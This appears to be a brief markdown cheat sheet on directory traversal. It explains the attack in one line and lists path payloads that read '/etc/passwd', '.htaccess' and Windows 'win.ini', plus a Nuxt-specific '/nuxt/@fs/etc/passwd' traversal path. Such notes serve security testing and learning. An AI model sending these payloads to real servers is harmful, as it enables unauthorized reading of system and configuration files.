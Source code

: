 # What is directory traversal
Allows read files in a server

## How to find
- Identify instances with common directory traversal
```bash
../../../../etc/passwd
../../../.htaccess
\..\WINDOWS\win.ini
\..\..\WINDOWS\win.ini
```

## Path Traversal in nuxt
```bash
/nuxt/@fs/etc/passwd
```

